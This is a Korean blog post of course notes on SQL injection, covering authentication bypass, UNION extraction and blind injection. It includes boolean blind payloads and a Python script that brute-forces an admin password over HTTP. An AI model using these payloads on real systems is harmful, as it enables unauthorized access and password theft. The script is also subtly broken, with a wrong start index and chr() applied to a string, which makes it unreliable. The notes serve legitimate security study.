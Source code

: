 ```yaml
---
layout : single
title : "[Dreamhack] STAGE6. SQL Injection (2) : Serverside"
categories: web-hacking
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```

# Web Hacking - SQL Injection (2)

-  [x] Simple SQL Injection
-  [x] Bline SQL Injection

## ServerSide : SQL Injection
Injection : 이용자의 입력값이 애플리케이션의 처리 과정에서 구조 또는 문법적인 데이터로 해석되어 발생하는 취약점

### SQL Injection
SQL은 DBMS에 데이터를 질의하는 언어로, 웹 서비스는 이용자의 입력(로그인 시에 ID/PW, 게시글의 제목과 내용)을 SQL 구문에 포함하여 요청하는 경우가 있다. 아래는 로그인 시 애플리케이션이 DBMS에 질의하는 퀴리의 예시이며, 사용자가 입력한 id와 pw가 뭐리문에 포함되어있는 것을 알 수 있다. 이처럼 SQL에 이용자가 임의 문자열을 삽입하는 행위를 SQL Injection이라 하며, 이 때 우리는 조작된 쿼리로 인증을 우회하거나, 데이터베이스의 정보를 유출할 수 있다.

```sql
/*
아래 쿼리 질의는 다음과 같은 의미를 가지고 있습니다.
- SELECT: 조회 명령어
- *: 테이블의 모든 컬럼 조회
- FROM accounts: accounts 테이블 에서 데이터를 조회할 것이라고 지정
- WHERE user_id='dreamhack' and user_pw='password': user_id 컬럼이 dreamhack이고, user_pw 컬럼이 password인 데이터로 범위 지정
즉, 이를 해석하면 DBMS에 저장된 accounts 테이블에서 이용자의 아이디가 dreamhack이고, 비밀번호가 password인 데이터를 조회
*/
SELECT * FROM accounts WHERE user_id='dreamhack' and user_pw='password'
```
<br><Br>
아래의 쿼리에서는 user_pw 조건문이 사라져있으며, 이러한 경우 비밀번호의 대조 없이 id만으로 계정에 로그인이 가능하다

```sql
/*
아래 쿼리 질의는 다음과 같은 의미를 가지고 있습니다.
- SELECT: 조회 명령어
- *: 테이블의 모든 컬럼 조회
- FROM accounts: accounts 테이블 에서 데이터를 조회할 것이라고 지정
- WHERE user_id='admin': user_id 컬럼이 admin인 데이터로 범위 지정
즉, 이를 해석하면 DBMS에 저장된 accounts 테이블에서 이용자의 아이디가 admin인 데이터를 조회
*/
SELECT * FROM accounts WHERE user_id='admin'
```

#### Simple SQL Injection
Union Operator : [link](https://www.w3schools.com/sql/sql_union.asp)<br>
SQL에서 Union은 두 개 이상의 result-set을 결합하는 역할을 한다. 기존의 코드는 user_table에서 uid의 값만 select하기에, SQL을 실행했을 때, uid의 값만을 받아올 수 있다. 따라서, union을 사용하여 upw를 함께 받아오는 코드를 작성한 후, 후의 코드를 --를 통해 주석처리 해주었다.
<br><Br>
<img src = "/images/webbackground/8.png"><br><Br>
결과<br><Br>
<img src = "/images/webbackground/9.png">

#### Blind SQL Injection
아래의 예시와 같이, 스무고개와 유사한 방식으로 데이터를 알아낼 수 있다. DBMS가 답변 가능한 형태로 질문하며, 질의 결과를 이용자가 직접 화면에서 확인하지 못할 때, 참과 거짓의 반환 결과로 데이터를 획득한다

1. Question #1. dreamhack 계정의 비밀번호 첫 번째 글자는 'x' 인가요?<Br>
Answer. 아닙니다

2. Question #2. dreamhack 계정의 비밀번호 첫 번째 글자는 'p' 인가요?<Br>
Answer. 맞습니다 (첫 번째 글자 = p)

3. Question #3. dreamhack 계정의 비밀번호 두 번째 글자는 'y' 인가요?<Br>
Answer. 아닙니다.

4. Question #4. dreamhack 계정의 비밀번호 두 번째 글자는 'a'인가요?<Br>
Answer. 맞습니다. (두 번째 글자 = a)

<br><br>
예시 코드

```sql
# 첫 번째 글자 구하기 (아스키 114 = 'r', 115 = 's'')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=114-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=115-- ' and upw=''; # True
# 두 번째 글자 구하기 (아스키 115 = 's', 116 = 't')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=115-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=116-- ' and upw=''; # True 
```

---

Blind SQL Injection은 한 바이트씩 비교하기 때문에 다른 공격에 비해 많은 시간을 들여야 하며, 이를 해결하기 위해서는 공격을 자동화하는 스크립트를 작성해야 한다. 

**request 모듈 GET 예제 코드**

```python
import requests
url = 'https://dreamhack.io/' # 요청 보낼 url
headers = { # 요청 헤더
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
params = { # 보낼 파라미터 변수 (key-value 형식)
    'test': 1,
}
for i in range(1, 5):
    c = requests.get(url + str(i), headers=headers, params=params)
    print(c.request.url)
    print(c.text)
```

**request 모듈 POST 예제 코드**

```python
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
data = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.post(url + str(i), headers=headers, data=data)
    print(c.text)
```

---

Blind SQL Injection으로 비밀번호를 알아내는 경우, 알파벳과 숫자, 특수문자를 모두 포함한 범위를 지정해야한다. 아래는 이를 고려하여 작성한 스크립트로, 비밀번호에 포함되는 모든 문자를 string을 사용하여 생성하고, 모든 문자를 한 바이트씩 비교하는 반복문을 작성한다. 반복문 실행 중 반환 결과가 참일 경우 Login success 문자열을 찾고, 해당 결과를 반환한 문자를 password에 저장한다. 이 작업이 끝나면 비밀번호를 알아낼 수 있다.

```python
#!/usr/bin/python3
import requests
import string
url = 'http://example.com/login' # example URL
params = {
    'uid': '',
    'upw': ''
}
tc = string.ascii_letters + string.digits + string.punctuation # abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''
password = ''
for idx in range(0, 20):
    for ch in tc:
        params['uid'] = query.format(idx=idx, val=ord(ch)).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        if c.text.find("Login success") != -1:
            password += chr(ch)
            break
print(f"Password is {password}")
```